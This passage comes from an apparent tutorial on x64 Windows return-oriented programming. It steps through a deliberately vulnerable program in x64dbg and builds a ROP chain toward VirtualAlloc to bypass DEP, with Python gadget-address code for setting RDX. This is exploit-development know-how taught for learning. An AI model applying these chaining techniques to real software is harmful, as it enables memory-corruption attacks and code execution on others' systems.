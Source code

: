 ```python
```

Go ahead and run that code, attach your vulnerable program in x64dbg, and then hit enter.  You should land here as long as your previously set breakpoint is still in effect:

![image](https://github.com/user-attachments/assets/7484a638-9f15-4335-8f25-3c5b65f6b5ca)

Hit `F8` twice (step over) until you reach the 'RET' instruction.  Now, pay attention to the stack in the bottom right hand corner.  Notice the memory address that it wants to load next?

It's our predefined memory address that follows our buffer payload!  Memory address: `0x14000276f`

![image](https://github.com/user-attachments/assets/417847e3-9fb3-410a-8429-9d142a6fca13)

Let's follow it.  Go ahead and execute the RET instruction by hitting `F8` or this icon: ![image](https://github.com/user-attachments/assets/d922a711-87dc-4f69-917a-0678ebf1a86e) and let's follow our code exection path!  Now look where we ended up 😸

![image](https://github.com/user-attachments/assets/7072d1d4-8da5-44bc-ac63-6f30178f7038)

Lo and behold, it's our ROP Gadget!  Step through the code until you reach the next `RET` command and watch the RCX register change to `0`

![image](https://github.com/user-attachments/assets/7b7fc662-10d3-42ca-a5a7-fd019b8062dc)

Code execution complete!  And guess what?  We never made the stack executable.  We're simply re-using existing assembly instructions.  Pretty awesome right?! 😺

At this point we can start chaining more ROP gadgets and set all of our registers to their necessary values and execute VirtualAlloc.  Once again, since VirtualAlloc is already imported into our program because I intentionally included it when I coded the vulnerable program 😆, we can easily know what it's memory address is.  So, set the registers, jump to the memory address of VirtualAlloc, and allocate memory for our shellcode!

***Chaining ROP Gadgets - Executing VirtualAlloc()***
-

Okay, so we learned how to locate our gadgets AND we already found a specific gadget to set `RCX` to 0.  So good news and bad news situation: Good news is we just need to set values for 3 more registers and we can execute VirtualAlloc.  Bad news is that registers `R9` and `R8` are a royal pain to setup due to their limited use in our code.  So, we have to link together quite a few ROP chains to get those register values set correctly.  RDX isn't too bad to setup as it is more commonly used throughout the code. 

**Let's start with `RDX`.  RDX will typically be set according to the size of our payload (shellcode).  However, because calculations can be tricky using ROP gadgets, this value ends up being set to an arbitrary value of 1002.  The reason for this is I need the lower 32 bits of RDX ideally zeroed out as I just want to set the value to 1000.  But since I couldn't find a good ROP gadget, I'm simulating clearing the lower 32 bits by using a mov edx, 2, which will at least clear most of the bits and leave me with a single digit to work with.  As long as it's equal to or greater than your shellcode size you're good.  Here's what I came up with:**

```python
#rop gadgets for setting the RDX register value
#####################################################
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001243)  # mov edx, 2; xor ecx, ecx; call rax; 
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400000AC)  # place 1000 on stack --> 0x00000001400000AC = 0x1000
payload += struct.pack("<Q", 0x140007678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", 0x140006995)  # add edx, eax; mov eax, edx; ret; 
# RDX should now be set to 1002 (ideally 1000 but I got tired of mathing :D )
######################################################
```
